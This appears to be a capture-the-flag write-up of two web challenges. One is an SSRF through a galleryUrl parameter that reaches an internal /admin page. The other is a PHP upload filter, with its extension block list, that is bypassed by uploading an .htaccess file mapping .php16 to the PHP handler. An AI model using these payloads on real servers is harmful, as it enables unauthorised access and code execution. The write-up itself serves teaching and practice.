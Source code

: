 ### Port 20011 \[Web]

This is an SSRF in the `galleryUrl` parameter. By requesting the `/admin` internally, we gain access to the admin console: `/gallery?galleryUrl=http://localhost:20011/admin`

### Port 20055 \[Web]

This wa PHP file upload challenge. We are provided with the following source code.

```php
<?php
    $storage_dir = "file_uploads/";
    $full_storage_path = $storage_dir . basename($_FILES["fileName"]["name"]);
    $file_ext = pathinfo($full_storage_path, PATHINFO_EXTENSION);
    $file_ext = strtolower($file_ext);
    $blocked_ext = ["php", "php2", "php3", "php4", "php5", "php6", "php7", "php8", "phps", "pht", "phtm", "phar", "phtml", "pgif", "shtml", "html", "inc", "cgi", "asp", "aspx", "config", "pl", "py", "rs", "rb", "vbhtml", "vbtm", "vb", "phpt", "phtml"];
    echo($file_ext);
    if (in_array($file_ext, $blocked_ext, true) === true){
    echo("<html><h1>Blocked file extension detected! File upload blocked!</h1></html>");
    exit(1);
    }
    
    // Check file size
    if ($_FILES["fileName"]["size"] > 500000) {
    echo("<html><p>Sorry, your file is too large.</p></html>");
    exit(2);
    }
    
    // Move the uploaded file
    if (move_uploaded_file($_FILES["fileName"]["tmp_name"], $full_storage_path) === true){
    echo("<html><p>File has been uploaded successfully and is now available <a href='/$full_storage_path'>here</a>! But can you figure out how to execute it?</html>");
    }
    else{
    echo("<html><p>File was not successfully uploaded!</p></html>");
    }
?>
```

While most common PHP file extensions are blocked, `.htaccess` was not!

We could upload a `.htaccess` file to tell Apache to interpret some arbitrary file extension as a PHP file (e.g. `.php16`).

```http
Content-Disposition: form-data; name="fileName"; filename=".htaccess"
Content-Type: text/html

AddHandler application/x-httpd-php .php16      # Say all file with extension .php16 will execute php
```
